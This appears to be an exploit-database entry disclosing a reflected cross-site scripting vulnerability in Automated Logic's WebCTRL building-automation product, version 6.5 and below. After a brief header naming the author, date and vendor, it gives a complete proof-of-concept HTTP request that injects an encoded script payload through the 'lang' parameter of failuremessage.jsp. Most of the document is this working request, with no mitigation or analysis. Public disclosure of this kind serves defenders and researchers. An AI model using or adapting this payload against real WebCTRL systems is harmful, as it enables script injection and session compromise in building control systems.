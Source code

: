 # XSS vulnerability in Automated Logic's WebCTRL product
Exploit Title:  XSS in Automated Logic WebCTRL\n
Google Dork: - \n
Date: 2020-08-25
Exploit Author: İsmail ERKEK 
Vendor Homepage: https://www.automatedlogic.com/
Version: 6.5 and below
Tested on: -

# Proof of Concept Request
-------------------------------------------------
GET /_common/lvl5/failuremessage.jsp?message1=Operator_authentication_failed1&message2=Operator_authentication_failed2&lang=en61302%26%23x22%3b%3balert(1)%2f%2f107 HTTP/1.1
Host: 127.0.0.1
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://127.0.0.1/?language=en
Cookie: JSESSIONID=15B8DBC7037CBF79B647B8D6F0ABEF0B
